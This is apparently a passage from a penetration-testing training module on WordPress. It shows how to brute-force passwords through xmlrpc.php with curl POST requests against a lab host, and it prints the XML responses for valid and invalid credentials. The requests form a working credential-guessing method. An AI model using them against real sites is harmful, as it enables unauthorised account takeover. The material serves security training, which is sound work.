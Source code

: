 Once we are armed with a list of valid users, we can mount a password brute-forcing attack to attempt to gain access to the WordPress backend.  This attack can be performed via the login page or the `xmlrpc.php` page. If our post request against `xmlrpc.php` contains valid credentials, we will receive the following output:

```shell-session
trop3n@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

If the credentials are not valid, we will receive a `403 faultCode` error.
### Invalid Credentials - 403 Forbidden

```shell-session
trop3n@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>asdasd</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Incorrect username or password.</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```
